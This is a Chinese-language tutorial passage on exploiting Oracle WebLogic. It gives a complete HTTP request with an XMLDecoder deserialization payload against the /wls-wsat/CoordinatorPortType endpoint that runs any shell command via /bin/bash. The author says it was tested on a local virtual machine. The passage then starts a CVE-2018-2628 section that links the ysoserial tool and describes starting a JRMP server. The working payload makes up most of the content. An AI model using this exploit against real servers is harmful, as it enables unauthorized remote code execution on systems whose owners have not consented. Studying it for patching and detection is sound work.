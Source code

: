 

漏洞发生在`/wls-wsat/CoordinatorPortType`页面中，它会将传入的xml语句进行解析、然后反序列化，造成任意代码执行

构造如下的http包，在`<string>sub</string>`中传入所需的命令即可命令执行

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.85.133:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 544
Connection: close
Upgrade-Insecure-Requests: 1

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>sub</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

我这由于是在虚拟机中搭建的，就弹了个sublime框

需要注意的是`Content-Type`要设置成`text/xml`否则不会解析xml



# 反序列化 CVE-2018-2628

首先需要一个ysoserial

https://github.com/brianwrf/ysoserial/releases/download/0.0.6-pri-beta/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar

启动一个JRMP Server，[listen port] 为监听的端口    [ommand]为想要执行的命令

